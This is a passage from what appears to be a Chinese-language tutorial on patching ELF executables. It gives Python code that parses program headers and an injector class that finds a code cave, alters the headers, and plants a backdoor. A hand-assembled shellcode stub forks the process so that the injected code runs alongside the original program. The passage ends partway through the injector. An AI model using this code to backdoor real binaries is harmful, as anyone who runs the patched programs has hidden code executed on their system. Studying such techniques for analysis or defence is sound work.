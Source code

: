 ```python
        hdr['e_shtrndx'], = unpack('<h', self.file.read(2))

        return hdr

    def _parse_segment(self):
        '''
        segment/program header parse part.
        '''
        self.file.seek(self.header['e_phoff'])
        segments = []
        for i in range(self.header['e_phnum']):
            seg = {}
            # Type of segment, Segment attributes
            seg['p_type'], seg['p_flags'] = unpack('<II', self.file.read(8))

            # Offset in file
            seg['p_offset'], = unpack('<Q', self.file.read(8))

            # Virtual address in memory, Reserved
            seg['p_vaddr'], seg['p_paddr'] = unpack('<QQ', self.file.read(16))

            # Size of segment in file, Size of segment in memory
            seg['p_filesz'], seg['p_memsz'] = unpack('<QQ', self.file.read(16))

            # Alignment of segment
            seg['p_align'], = unpack('<Q', self.file.read(8))

            segments.append(seg)
        return segments
```

## ELF 补丁过程

下面是 Patch 程序的主要流程了，首先是找到合适大小的 Code Cave，然后修改 ELF File Header 和 ELF Program Header 为后门代码准备相应的内存，并让后门代码得以运行，最后往这个 Code Cave 里填上辅助代码和相应后门。

```python
class injector:
    def __init__(self, file, inject_code: bytes):
        self.file = file
        self.info = elf_info(self.file)

        raw = [b'\x6a\x39',                         # push  0x39
               b'\x58',                             # pop   rax
               b'\x0f\x05',                         # syscall
               b'\x48\x85\xc0',                     # test  rax, rax
               b'\x74\x12',                         # jz    16
               b'\xe8\x00\x00\x00\x00',             # call  $+5
               b'\x48\x8b\x2c\x24',                 # mov   rbp, [rsp]
               b'\x48\x81\xed\x00\x00\x00\x00',     # sub   rbp, offset
               b'\xff\xe5',                         # jmp   rbp
               inject_code]                         # inject code
        code = b''.join(raw)

        segs = self.find_cave(len(code))
        if len(segs) == 0:
            logger.error('No cave in the program')
            return

        target_idx = segs[0]['index']
        target = self.info.segments[target_idx]

        new_size = target['p_filesz'] + len(code)
```